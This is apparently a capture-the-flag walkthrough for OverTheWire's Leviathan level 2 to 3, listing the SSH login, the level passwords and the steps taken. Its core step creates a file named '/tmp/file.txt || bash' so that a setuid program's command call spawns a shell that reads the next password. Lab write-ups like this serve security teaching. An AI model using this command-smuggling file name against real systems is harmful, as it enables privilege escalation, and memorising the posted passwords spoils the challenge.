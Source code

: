 # Level 2 → Level 3

## Solution
```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
```
mEh5PNl10e
```
```
ls -al
```
![](0.png)

```
ltrace ./printfile /etc/passwd
```

![](1.png)

```
touch '/tmp/file.txt || bash'
```
```
./printfile '/tmp/file.txt || bash'
```

![](2.png)

```
cat /etc/leviathan_pass/leviathan3
```
```
exit
```
```
rm '/tmp/file.txt || bash'
```

## Password for the next level:
```
Q0G8j4sakn
```
